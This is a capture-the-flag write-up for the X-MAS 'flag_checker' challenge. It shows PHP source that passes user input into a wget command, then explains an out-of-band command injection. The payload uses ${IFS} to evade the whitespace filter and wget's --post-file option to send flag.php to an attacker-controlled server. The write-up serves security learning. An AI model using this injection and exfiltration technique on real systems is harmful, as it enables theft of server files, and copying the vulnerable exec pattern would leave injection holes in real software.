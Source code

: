 ## flag_checker

A source code was provided for this challenge :
```php
<?php
/* flag_checker */
include('flag.php');

if(!isset($_GET['flag'])) {
    highlight_file(__FILE__);
    die();
}

function checkFlag($flag) {
    $example_flag = strtolower('FAKE-X-MAS{d1s_i\$_a_SaMpL3_Fl4g_n0t_Th3_c0Rr3c7_one_karen_l1k3s_HuMu5.0123456789}');
    $valid = true;
    for($i = 0; $i < strlen($flag) && $valid; $i++)
        if(strpos($example_flag, strtolower($flag[$i])) === false) $valid = false;
    return $valid;
}


function getFlag($flag) {
    $command = "wget -q -O - https://kuhi.to/flag/" . $flag;
    $cmd_output = array();
    exec($command, $cmd_output);
    if(count($cmd_output) == 0) {
        echo 'Nope';
    } else {
        echo 'Maybe';
    }
}

$flag  = $_GET['flag'];
if(!checkFlag($flag)) {
    die('That is not a correct flag!');
}

getFlag($flag);
?>
```
From this code we can see it's a oob comand injection , and we can also see that  the function verify only lowercase , so we can add options to our payload with o we can add options with ${IFS}.

First of all I set up a public aws instance and i also installed  ngix.  because the aws instances gives me a public ip , then I listened ngnix on port 80 and used this payload on the challenge : http://challs.xmas.htsp.ro:3001/?flag=${IFS}-${IFS}--post-file${IFS}flag.php${IFS}1.1.1.1(
in place of 1.1.1.1 I put the public ip of the aws instance). Let's see how this payload works.
First of all i used tge $IFS variable, which is the “Internal Field Seperator” with default value ```html<space><tab><newline>``` also works fine as a separator for commands , in this way the payload is a oob command injection with whitespace bypass , after i used the comand --post-file (this command is used to send the content of a file using wget) because i needed to get out to wget and send the flag.php to my aws istance.

After i went to my ngnix and intercepted the traffic with  tcpflow , more specifically with this comand " tcpflow -p -c -i eth0 port 80 " and i could see the content of the flag.php

![xmas1](https://user-images.githubusercontent.com/59454895/103447731-6ac10100-4c8f-11eb-9363-1ebdd340e3ae.PNG)
